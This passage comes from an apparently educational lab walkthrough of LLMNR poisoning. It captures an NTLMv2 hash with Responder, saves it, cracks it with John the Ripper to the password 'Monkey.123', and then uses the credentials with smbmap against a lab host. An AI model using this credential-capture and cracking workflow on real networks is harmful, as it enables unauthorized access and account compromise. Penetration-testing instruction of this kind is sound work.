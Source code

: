<div class="imgblock">

![Responder result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331056/blog/respond-the-name/vulnerability_lutscw.webp)

<div class="title">

Figure 1. Respoder result

</div>

</div>

Here we have our hash, they are `NTLMv2 hashes`, and there we can also
view some information about the server like the OS version and the
requested share. With this, we save that user’s hash on a file.

**save hash.**

``` bash
echo 'svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000' > hashllmnr
```

And then we crack it using `John`, a `SecLists` dictionary, and
`KoreLogic` ruleset. Since `NTLMv2` hashes are harder to crack, it could
take a while, depending on your system.

**John cracking.**

``` bash
john --wordlist=/usr/share/seclists/Passwords/darkweb2017-top100.txt --rules=KoreLogic hashllmnr
```

**John output.**

``` bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Monkey.123       (svctest)
1g 0:00:00:18 DONE (2020-03-31 17:55) 0.05518g/s 575858p/s 575858c/s 575858C/s Asdfgh.jkl13..Asdfgh.jkl24
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

And it’s cracked\! Now we can check our access running `smbmap` again
with our new set of credentials.

**samba high privileges.**

``` bash
smbmap -u svctest -p 'Monkey.123' -d sky.net -H 192.168.56.2
```
